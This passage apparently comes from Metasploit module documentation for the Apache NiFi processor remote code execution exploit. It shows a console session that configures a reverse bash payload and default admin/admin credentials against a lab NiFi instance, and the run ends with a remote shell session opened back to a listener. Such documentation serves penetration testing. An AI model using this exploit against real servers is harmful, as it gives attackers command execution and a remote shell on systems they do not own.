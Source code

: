 ### Ubuntu Server 20.04.1 (authentication required)

It can be seen that it fails the first time because authentication is required, but succeeds after credentials are set.

```
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rport 9443
rport => 9443
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 127.0.0.1:9443 - The service is running, but could not be validated.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[-] Exploit aborted due to failure: bad-config: Authentication is required. Bearer-Token or Username and Password must be specified
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/apache_nifi_processor_rce) > set username admin
username => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > set password admin
password => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:50802) at 2020-10-03 13:18:00 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/unix                                                                                       192.168.194.131:4444 -> 192.168.194.130:50802 (127.0.0.1)
```

